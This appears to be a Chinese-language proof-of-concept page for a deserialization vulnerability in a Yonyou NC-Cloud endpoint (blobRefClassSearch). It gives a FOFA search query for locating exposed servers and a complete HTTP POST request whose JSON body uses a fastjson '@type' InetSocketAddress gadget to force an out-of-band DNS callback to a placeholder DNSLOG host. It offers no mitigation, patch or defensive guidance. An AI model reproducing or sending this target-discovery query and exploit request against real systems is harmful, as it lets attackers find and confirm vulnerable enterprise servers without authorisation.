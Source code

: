 ## 用友NC-Cloud接口blobRefClassSearch存在反序列化漏洞

用友NC Cloud接口 /ncchr/pm/ref/indiIssued/blobRefClassSearch 存在反序列漏洞。

## fofa

```yaml
app="用友-NC-Cloud"
```

## poc

```yaml
POST /ncchr/pm/ref/indiIssued/blobRefClassSearch HTTP/1.1
Content-Type: application/json
Host: 
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.4103.116 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

{"clientParam":"{\"x\":{\"@type\":\"java.net.InetSocketAddress\"{\"address\":,\"val\":\"DNSLOG.COM\"}}}"}
```

